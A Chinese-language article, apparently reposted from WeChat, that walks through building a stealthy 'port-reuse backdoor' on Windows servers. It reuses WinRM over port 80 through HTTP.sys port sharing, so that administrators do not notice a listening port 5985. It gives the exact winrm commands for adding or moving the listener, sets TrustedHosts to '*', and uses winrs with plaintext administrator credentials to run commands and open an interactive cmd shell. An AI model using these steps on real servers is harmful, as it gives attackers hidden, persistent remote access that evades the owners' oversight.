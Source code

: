 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247493916&idx=2&sn=eacc42e5f8f68fc65dae1c8a1201f014&chksm=fc7bedc1cb0c64d7115c0c3bf84410e29102a25627891c9eb85cba2026b7bc3622a9ebb5e2b2&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFhLz1H5qAkgh9wkAnWtKQNJd5gpJXE7XFR5qAuM2JpmdfLVUoDkug3r0BJF0TiaMK5vyiaYCEzwqeag/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490017&idx=1&sn=426336dfeeda818b0772b3c44703e173&chksm=fc781d3ccb0f942a7c07662752bb2f6983eb9c249c0d6b833f058b1d95fc7080d2d2598054ac&scene=21#wechat_redirect)

**目录**

  

WinRM 端口复用原理

端口复用配置

新增 80 端口监听

修改 WinRM 默认监听的端口

远程连接 WinRM

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HzZrTT4UZAcukC3cKqetSHpGJABL8ZCM8yibLyNpvY2Zia3IAY3P6yE9A/640?wx_fmt=gif)

**WinRM 端口复用原理**
----------------

该端口复用的原理是使用 Windows 的远程管理服务 WinRM，结合 HTTP.sys 驱动自带的端口复用功能，一起实现正向的端口复用后门。

关于 WinRM 服务，传送门：WinRM 远程管理工具的使用 

而 HTTP.sys 驱动是 IIS 的主要组成部分，主要负责 HTTP 协议相关的处理，它有一个重要的功能叫 Port Sharing(端口共享)。所有基于 HTTP.sys 驱动的 HTTP 应用都可以共享同一个端口，只需要各自注册的 URL 前缀不一样。而 WinRM 就是在 HTTP.sys 上注册了 wsman 的 URL 前缀，默认监听 5985 端口。因此，在安装了 IIS 的 Windows 服务器上，开启 WinRM 服务后修改默认监听端口为 80 或新增一个 80 端口的监听即可实现端口复用，通过 Web 端口登录 Windows 服务器。

使用 netsh http  show  servicestate 命令可以查看所有在 HTTP.sys 驱动上注册过的 URL 前缀。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZGfg9N7p2sPtdlhC1gRmWJdDGN8bibhtqPaEdlSFNr0jjyvAe5cLrLoQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HoaHEjBLqmAGrZlH8BTIAaGKt4xLxqt7gEL9Jj00Y7u9ic8Xy6EYiaVBQ/640?wx_fmt=gif)

**端口复用配置**
----------

### **新增 80 端口监听**

对于 Windows Server 2012 以上的服务器操作系统中，WinRM 服务默认启动并监听了 5985 端口。如果服务器本来就监听了 80 和 5985 端口，则所以我们既需要保留原本的 5985 监听端口，同时需要新增 Winrm 监听 80 端口。这样的话，WinRM 同时监听 80 和 5985 端口。既能保证原来的 5985 端口管理员可以正常使用，我们也能通过 80 端口远程连接 WinRM。

通过下面的命令，可以新增 WinRM 一个 80 端口的监听。

winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZbgU49ic6karjFU33HtHBSMymXibZrMSeRZ3CHcz2Ddcw7ykkARRdC4jg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZQGQcIWKMM4Farjicwa3XOKLAerl1PtH9kKTXMWzgm2529EiaQZHztfWw/640?wx_fmt=png)

查看监听端口，80 和 5985 都在监听

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZPswY4SP16UvP5yacJISiaOvic1JlzxXIb1JHXrZzGKC52ZXnaqCfPWgg/640?wx_fmt=png)

80 端口仍然可以正常访问网页

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZMlKLYR6ibCEsK0pC0vYic7W33qXjoibk2qb4A3SjicCCOiaxysGd6C3eGeg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HoaHEjBLqmAGrZlH8BTIAaGKt4xLxqt7gEL9Jj00Y7u9ic8Xy6EYiaVBQ/640?wx_fmt=gif)

### **修改 WinRM 默认监听的端口**

如果该计算机上原本没有开启 WinRM 服务的话，则需要将 WinRm 端口监听端口修改为 80 端口。不然管理员看到该机器开起来 5985 端口的话，肯定会起疑心。

快速启动 WinRM

winrm  quickconfig  -q

修改 WinRM 默认端口为 80

winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZPkibkrfXKAIZV4OdJjDMB5OhXWuaNfMYtLeC71OlS2SPcib0HgPgiaFkw/640?wx_fmt=png)

查看监听端口，只有 80，没有 5985

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZzbJZwYNKoHsp4LNxVDT0XfPmyXiblQCR3hYKXI4snRle4Ex4NMGzndA/640?wx_fmt=png)

配置完成之后，原本的 HTTP 服务可以正常访问，我们也可以通过 80 端口进行远程 WinRM 连接管理。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZia2H1JUDoqpeDbfI1RwtkO6dAjIN2VOWGqgicNXHKnXc5f87URPZAuibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HoaHEjBLqmAGrZlH8BTIAaGKt4xLxqt7gEL9Jj00Y7u9ic8Xy6EYiaVBQ/640?wx_fmt=gif)

**远程连接 WinRM**
--------------

本地需要连接 WinRM 服务时，首先也需要配置启动 WinRM 服务。如果是工作组环境的话，还需要设置信任连接的主机，执行以下两条命令即可。

winrm quickconfig -q

winrm set winrm/config/Client @{TrustedHosts="*"}

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZ8MYicTDtWapHWibOWNRqFbhiczTsDD6eUjdIfW8ricdpBRyjrZB00iahJvw/640?wx_fmt=png)

通过 WinRM 连接，并执行 whoami 命令

winrs -r:http://192.168.10.20 -u:administrator -p:root whoami

通过 WinRM 连接，并获得交互式的 shell

winrs -r:http://192.168.10.20 -u:administrator -p:root cmd

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZvHib6HzfGrNibIk5oTgz9pgnNcahehoibQEK4RicledzM7tMfSKv4CNgog/640?wx_fmt=png)

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFjWI9QibTmpF13L33cHIh2bSMLAI4tW7sTgTkzh4lRcZ6JR7SrOibCTYUEsg8ZsmyKnUBm7h4J5klZw/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MzA3NzM2MjAzMg==&mid=2657228904&idx=1&sn=aa0d7a52864f19cbd6245a46ce162a1f&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgag1b8Ubew6DhiceZ9tKengA7WrOUhVx2wCKjHy6GSFbZ3YLKjy6N7LB9p9p7eRNiapvEiax7b5N2Jg/640?wx_fmt=png)
